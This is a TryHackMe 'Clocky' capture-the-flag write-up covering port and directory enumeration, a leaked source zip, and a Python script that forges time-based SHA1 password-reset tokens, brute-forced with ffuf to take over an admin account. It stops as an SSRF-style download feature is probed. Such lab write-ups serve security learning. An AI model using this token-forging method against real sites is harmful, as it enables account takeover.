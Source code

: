 ```yaml
---
title: THM Clocky Writeup
date: 2024-03-31 06:42 -0400
categories: [Writeups, TryHackMe]
tags: [clocky, ctf]
---
```


# Intro
We know we have to find 6 flags, lets see where we can get them from.

## Enumeration
I started off with a simple nmap scan using the `--top-ports` flag, I like this as it is pretty good at finding open and used ports.
```terminal
nmap -sC -sV --top-ports=4000 10.10.149.202
```
We see there are a few services running,
```terminal
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
8000/tcp open  http       nginx 1.18.0 (Ubuntu)
| http-robots.txt: 3 disallowed entries 
|_/*.sql$ /*.zip$ /*.bak$
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
8080/tcp open  http-proxy Werkzeug/2.2.3 Python/3.8.10
---SHORTENED---
```
Let's look into the port 8000, as the robots.txt has some disallowed entries, always interesting to look where you aren't supposed to!

## First Flag
```terminal
User-agent: *
Disallow: /*.sql$
Disallow: /*.zip$
Disallow: /*.bak$

Flag 1: THM{REDACTED}
```
We find our first flag at the robots.txt on port 8000
![website-screenshot](assets/img/writeupscreenshots/clocky-1.png)
Let's start some enumeration for those other file types mentioned
```terminal
gobuster dir -u http://10.10.149.202:8000/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x sql,zip,bak
```
```terminal
/index.zip (Status: 200)
```
## Second Flag
Looks like we have at least one file, let us download to investigate. Inside our zip file we have a python application and our second flag! It looks like the password_reset page may be vulnerable as it shows us how the user tokens are made in order to reset account passwords successfully. Now we must focus on finding a valid user to exploit this!

```python
import requests, hashlib
from datetime import datetime, timedelta

username = input("What user to attempt?: ")
lnk2 = " . " + username.upper()

forg_pass_url = "http://10.10.149.202:8080/forgot_password"
data = {
    'username': username.lower()
}
response = requests.post(forg_pass_url, data=data)

lnk1 = str(datetime.now() - timedelta(hours=1))[:-4]
given_str = lnk1

# Convert the string to a datetime object
dt = datetime.strptime(given_str, "%Y-%m-%d %H:%M:%S.%f")

# Generate milliseconds variations
milliseconds = [str(i).zfill(2) for i in range(100)]

# Initialize the list to store the results
result = []

# Generate combinations with a second before and after
for ms in milliseconds:
    result.append((dt - timedelta(seconds=1)).strftime("%Y-%m-%d %H:%M:%S.") + ms)
    result.append(dt.strftime("%Y-%m-%d %H:%M:%S.") + ms)
    result.append((dt + timedelta(seconds=1)).strftime("%Y-%m-%d %H:%M:%S.") + ms)

for i in result:
	lnk_full = i + lnk2
	#print(lnk_full) - Before hash to check time is correct
	lnk_full = hashlib.sha1(lnk_full.encode("utf-8")).hexdigest()
	print(lnk_full)

```
I created this to automate the testing of the tokens with different users... I finally stumbled upon the correct user by using ffuf to bruteforce the attempts.
```terminal
68bc6b929e90730d32c4d7389ec1f32edd607493 [Status: 200, Size: 22, Words: 2, Lines: 1]
2d6488a9bfc91cdf33c893ae385de34a2451783f [Status: 200, Size: 22, Words: 2, Lines: 1]
e7248212ac85850f8f775080a9ddcbd71acab755 [Status: 200, Size: 22, Words: 2, Lines: 1]
6c57c9bb4d825648944f2c58ab6753e9045604ff [Status: 200, Size: 22, Words: 2, Lines: 1]
56a0e32d21173b7079375143d7436da84ffbc3f4 [Status: 200, Size: 22, Words: 2, Lines: 1]
f93edc58cfa5f00e0c49dcd72eaead6af99a89b6 [Status: 200, Size: 22, Words: 2, Lines: 1]
f0641a0a77c9d4637ab3fa449da9e16b20e8bd6f [Status: 200, Size: 22, Words: 2, Lines: 1]
c7b0c9601d1cdda599282787efaed39b0305cc9f [Status: 200, Size: 22, Words: 2, Lines: 1]
fa3881a93441fe12b54b18f2115110f38e9f2ef2 [Status: 200, Size: 22, Words: 2, Lines: 1]
0dd5370d4f3bba5482e7e3d701b41ba6cf275bd0 [Status: 200, Size: 1627, Words: 665, Lines: 54]
```
## Third Flag
We can see this token worked, leading us to the password reset page where we can define our own password. After doing so, heading to the administrator page gives us our third flag!
![website-screenshot](assets/img/writeupscreenshots/clocky-2.png)

Here we are prompted with a input to enter a "location" and a download button. From some quick testing, we are able to make requests through the site to download files. Using localhost or 127.0.0.1 over http was not allowed, we need another way to exploit this.